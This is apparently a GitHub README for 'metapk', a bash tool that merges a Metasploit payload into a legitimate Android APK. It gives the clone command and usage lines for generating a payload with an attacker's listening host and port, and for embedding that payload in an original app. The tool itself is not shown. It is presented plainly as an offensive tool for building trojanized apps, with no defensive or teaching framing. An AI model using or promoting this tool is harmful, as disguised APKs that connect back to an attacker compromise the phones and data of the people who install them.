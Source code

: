 # Metapk
Merge Metasploit Payload And Legit Apk With Ease.

## Let's Dive In
Clone The Repository To Your Machine

In Case You Don't Know How To Do That, Here's The Command,

```
git clone https://github.com/yoruba-codigy/metapk.git
```

### Dependencies
*	A Pc With Bash Shell (Most Suitably Linux)
*	[Bat](https://github.com/sharkdp/bat)
*	A Chunk Of Processing Power From Your Brain

## Usage
To Create A Payload Only;
```
./metapk -c <lhost> <lport>
```

To Merge Payload And Original Apk;
```
./metapk -e <original apk> <payload>
```
CleanUp The Present Working Directory;
```
./metapk --clean
```

#### Note: For Best Results, Copy Original Apk And Payload Into Metapk Directory.
##### Ps: There Shouldn't Be Space Between Apk Names. (Working On That).
###### PPS:This Script Won't Work For All Apks
